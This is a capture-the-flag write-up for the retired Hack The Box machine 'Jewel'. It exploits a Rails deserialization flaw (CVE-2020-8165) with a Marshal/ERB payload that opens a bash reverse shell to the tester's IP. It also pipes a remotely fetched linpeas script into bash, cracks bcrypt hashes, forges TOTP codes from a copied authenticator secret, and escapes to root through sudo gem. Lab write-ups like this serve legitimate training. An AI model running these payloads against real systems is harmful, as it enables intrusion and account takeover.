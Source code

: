 # Jewel

This is the write-up for the box Jewel that got retired at the 13th February 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.211    jewel.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/jewel.nmap 10.10.10.211
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-title: 10.10.10.211 Git
|_Requested resource was http://10.10.10.211:8000/gitweb/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-title: BL0G!
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The web page on port 8080 has the title _"BL0G!"_ an looks like a custom developed website.
There are articles from the users _jennifer_ and _bill_ which could be potential usernames.

On the top right it is possible to _Sign Up_ and _Log In_.
After signing up and login in, there is not more functionality than before.

The HTTP Server header shows that it is powered by **nginx 1.14.2** and **Phusion Passenger 6.0.6**.
The software [Phusion Passenger](https://github.com/phusion/passenger) is a web server that supports Ruby, Python and Node.js.

## Checking HTTP (Port 8000)

On the web page on port 8000 a **Git repository** with the description _"BL0G!"_ is hosted.
This seems to be the source code of the web application on port 8080.

It can be downloaded by clicking on _Snapshot_ and then the archive can be decompressed:
```
tar -xvzf git-5d6f436.tar.gz
```

In there is a _config.ru_ and _Gemfile_ which means that it is developed with **Ruby on Rails**.
The file _Gemfile.lock_ shows all modules and versions of this Ruby application:
```
(...)
rails (5.2.2.1)
```

The version of the **Rails** module for the web server is [version 5.2.2.1](https://rubygems.org/gems/rails/versions/5.2.2.1) from March 2019.
When searching through the [CVEs on Mitre](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=rails), we find [CVE-2020-8165](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165):

> "A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE"

It can be checked if the application is vulnerable to this by searching for the string in the [vulnerability description](https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c):
```
grep -iR "raw: true"
```
```
app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

In the [Ruby on Rails documentation](https://guides.rubyonrails.org/caching_with_rails.html#activesupport-cache-memcachestore) the _fetch_ method and _raw_ is explained.

### Exploiting Web Application on Port 8080

For this vulnerability there is [Proof-of-Concept code on GitHub](https://github.com/masahiro331/CVE-2020-8165).

The _fetch_ method is used in _app/controllers/users_controller.rb_ in the _update_ function when editing a users profile.
We created a user earlier and the _Username_ field can be used to send a serialized object:
```
http://10.10.10.211:8080/users/18/edit
```

Installing `rails`:
```
apt install rails
```

Creating new Rails project:
```
rails new exploit

cd exploit
```

Starting `rails console` and creating serialized object:
```
rails console
```
```
irb(main):> code = '`/bin/bash -c "bash -i >& /dev/tcp/10.10.14.6/9001 0>&1"`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)
```

Serialized object:
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.6%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

Sending a request with the serialized object to the server in the _username_ parameter:
```
POST /users/18/edit HTTP/1.1
Host: 10.10.10.211:8080
(...)

utf8=%E2%9C%93&_method=patch&authenticity_token=y92tnwcDEsuRKgVHGNSAHY%2FhR6Rp7L1q6tOd2XX5O7gE74o9%2Fkc1KJ%2Fg7LcRnr%2F9C%2BbaimXKDv4tu8NQMADj1A%3D%3D&user%5Busername%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.6%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User
```

Browsing to the profile:
```
GET /users/18 HTTP/1.1
```

After requesting the profile, the object will get processed, execute the code and a reverse shell as _bill_ returns.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
wget -O - -q 10.10.14.6/linpeas.sh | bash
```

It finds two password hashes in the file _/var/backups/dump_2020-08-27.sql_ and _/home/bill/blog/bd.sql_:
```
jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
```
```
bill:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
jennifer:$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
```

Trying to crack the hashes with **Hashcat**:
```
hashcat -m 3200 jewel.hashes /usr/share/wordlists/rockyou.txt --username
```

It cracks the password of _bill_ from the SQL dump file and it is:
> spongebob

We are this user at the moment, but with the password it is possible to check the `sudo` permissions:
```
sudo -l

[sudo] password for bill:
Verification code:
```

After the password is validated, it asks for a _Verification code_ and this looks like a **Multi-Factor Authentication** mechanism.
In the home directory of _bill_ is a hidden file called _.google_authenticator_ with some content:
```
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

Lets copy this to our local client and install **OathTool** to generate our own **One-Time-Pad (OTP)**:
```
apt install oathtool
```

Generating a token with the copied file:
```
oathtool --totp -b @google_authenticator
```

This token changes after a short while, so it may take several tries, but after that `sudo -l` will show the root permissions for this user:
```
User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

The user _bill_ can run `gem` as root and this is the command line tool for the package repository **RubyGems** for Ruby.

This binary has an entry in [GTOFBins](https://gtfobins.github.io/gtfobins/gem/#sudo) with which it is possible to escalate privileges:
```
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

It works and starts a shell as root!
